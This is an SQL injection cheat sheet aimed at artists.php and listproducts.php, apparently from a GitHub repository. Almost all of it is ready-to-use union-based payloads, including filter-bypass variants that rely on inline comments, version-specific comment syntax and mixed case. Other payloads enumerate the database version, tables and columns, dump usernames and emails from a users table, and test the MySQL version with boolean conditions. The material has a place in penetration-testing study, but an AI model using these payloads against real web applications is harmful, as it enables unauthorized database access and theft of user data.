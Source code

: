 ```
http://$ip/artists.php?artist=1 -1 union all select 1,2,3,4
http://$ip/listproducts.php?cat=1 -1 /*!UNiOn*/ /*!SeLEct*/ 1,database(),3,4,5,6,7,8,9,10,11
 http://$ip/listproducts.php?cat=1%20%20-1%20%20%20/**//*!12345UNION%20SELECT*//**/%201,database%28%29,3,4,5,6,7,8,9,10,11
 http://$ip/listproducts.php?cat=1%20%20-1%20%20%20%20/**//*!50000UNION%20SELECT*//**/%201,database%28%29,3,4,5,6,7,8,9,10,11
http://$ip/listproducts.php?cat=1%20%20-1%20%20/**/UNION/**//*!50000SELECT*//**/%201,database%28%29,3,4,5,6,7,8,9,10,11
http://$ip/listproducts.php?cat=1%20%20-1%20%20%20/*!50000UniON%20SeLeCt*/%201,database%28%29,3,4,5,6,7,8,9,10,11
--*See the 'Web filter Bypass Keywords' below for more*--
```

### Enumerate Information

```
http://$ip/artists.php?artist=1 union all select 1,@@version,3,4
http://$ip/artists.php?artist=1 union all select 1,hex(unhex(@@version)),3,4
http://$ip/artists.php?artist=1 union all select 1,convert(@@version using latin1),3,4
```

### Enumerate Database

```
http://$ip/artists.php?artist=1 union all select 1,database(),3,4
```

### Enumerate Tables

```
http://$ip/listproducts.php?cat=1 -1 union all select 1,2,3,4,5,6,7,8,table_name,10,11 from information_schema.tables
```

### Enumerate Columns

```
http://$ip/artists.php?artist=1 -1 union select all 1,2,column_name,4 from information_schema.columns where table_schema='database' and table_name='table_name' LIMIT 1,1 -- - LIMIT 1
```

### Enumerate RAW Data

```
http://$ip/listproducts.php?cat=1 union select all 1,2,3,4,5,6,group_concat(uname,0x10a,email),8,9,10,11 FROM users
```

### Confirm MYSQL version - If Returns true then end value is true

```
http://$ip/listproducts.php?cat=1 and substring(@@version,1,1)=4
http://$ip/listproducts.php?cat=1 and substring(@@version,1,1)=5 
```
